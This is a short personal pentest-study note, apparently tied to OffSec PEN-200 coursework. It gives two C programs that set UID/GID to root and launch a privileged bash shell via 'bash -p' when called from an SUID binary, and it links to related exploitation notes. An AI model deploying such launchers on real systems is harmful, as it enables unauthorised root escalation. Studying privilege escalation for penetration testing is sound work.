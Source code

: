 # Minimal SUID Shell Launcher

* **author**:: Nathan Acks
* **date**:: 2022-08-05

```c
#include <stdio.h>
#include <unistd.h>

main() {
	setuid(0);
	setgid(0);
	execl("/bin/bash",
	      "/bin/bash",
	      "-p",
	      (char*) NULL);
}
```

Alternate approach:

```c
#include <stdio.h>
#include <time.h>

main() {
	setresuid(0, 0, 0);
	setregid(0, 0, 0);
	system("/bin/bash -p");
	return 0;
}
```

Once compiled, this needs to be called by an SUID binary. The `-p` is required to keep bash from dropping privileges.

Note that this is very similar to the `LD_PRELOAD` trick, except that we're using `execl()` instead of `system()` and dropping a header.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [unistd's execl() without passing any arguments](https://stackoverflow.com/a/34400649)
* [Exploiting Bash](exploiting-bash.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [2022-08-05 — OffSec Live: PEN-200](../log/2022-08-05-offsec-live-pen-200.md)
